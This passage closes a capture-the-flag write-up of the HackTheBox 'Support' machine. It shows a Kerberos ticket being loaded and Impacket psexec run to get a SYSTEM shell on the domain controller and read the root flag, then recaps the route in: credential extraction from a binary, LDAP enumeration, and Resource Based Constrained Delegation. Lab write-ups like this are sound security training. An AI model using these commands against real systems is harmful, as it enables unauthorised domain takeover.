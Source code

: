 Set it in the environment and we can login as `Administrator`!
```bash
┌──(kali@kali)-[~/support.htb]
└─$ export KRB5CCNAME=$(pwd)/Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache 

┌──(kali@kali)-[~/support.htb]
└─$ psexec.py support.htb/administrator@dc.support.htb -k -no-pass
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.support.htb.....
[*] Found writable share ADMIN$
[*] Uploading file YEqzJQNs.exe
[*] Opening SVCManager on dc.support.htb.....
[*] Creating service ioDR on dc.support.htb.....
[*] Starting service ioDR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.859]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
```

![htb-support-root-txt](images/HTB-support/htb-support-root-txt.png)
## Recap
With blank credentials we're able to read the `support-tools` `SMB` share. By decompiling the `UserInfo.exe` binary with `ILSpy` we can **extract credentials** for the `ldap` user. Using these creds to gather `LDAP` information, we can find the password for the `support` user. Logging in as `support` we can grab the `user.txt` flag!

The `support` user has the `GenericAll` privilege over the **domain controller machine**. Through `Resource Based Constrained Delegation`, we can create a fake machine and **impersonate other users** through it. By generating a service ticket for the `Administrator` user we can create an elevated shell to grab the `root.txt` flag!

